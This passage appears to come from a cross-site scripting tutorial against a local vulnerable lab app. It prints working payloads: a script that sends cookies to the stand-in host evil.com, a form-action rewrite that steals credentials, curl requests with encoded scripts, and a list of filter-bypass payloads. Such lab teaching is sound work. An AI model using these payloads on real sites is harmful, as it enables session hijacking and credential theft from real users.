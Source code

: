 **URL decoded payload:**
```html
<script>fetch('http://evil.com/steal?cookie='+document.cookie)</script>
```

**Attack Impact:**
- Sends user's cookies to attacker's server
- Allows session hijacking
- Compromises user account

#### 5. Form Hijacking
```bash
# Modify forms to steal credentials
curl "http://localhost:5000/api/xss/search?query=%3Cscript%3Edocument.forms%5B0%5D.action%3D%27http%3A%2F%2Fevil.com%2Fsteal%27%3C%2Fscript%3E"
```

**URL decoded:**
```html
<script>document.forms[0].action='http://evil.com/steal'</script>
```

**Attack Impact:**
- Redirects form submissions to attacker's server
- Steals login credentials
- Captures sensitive form data

#### 6. JSON Response Exploitation
```bash
# XSS in profile endpoint
curl "http://localhost:5000/api/xss/profile?username=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&bio=test"
```

**Resulting JSON:**
```json
{
  "welcomeMessage": "<h2>Welcome back, <script>alert(document.cookie)</script>!</h2>",
  "profileHtml": "<div class='profile-card'><h3><script>alert(document.cookie)</script></h3>..."
}
```

**Client-side Exploitation:**
```javascript
// When client renders the HTML:
document.getElementById('profile').innerHTML = response.profile.profileHtml;
// Script executes and shows cookies
```

### Advanced Attack Techniques

#### 1. Filter Bypass Techniques
```html
<!-- Case variation -->
<ScRiPt>alert('XSS')</ScRiPt>

<!-- Alternative tags -->
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>

<!-- Encoding -->
<script>alert(String.fromCharCode(88,83,83))</script>

<!-- Event handlers -->
<div onclick="alert('XSS')">Click me</div>
<input onfocus="alert('XSS')" autofocus>
```
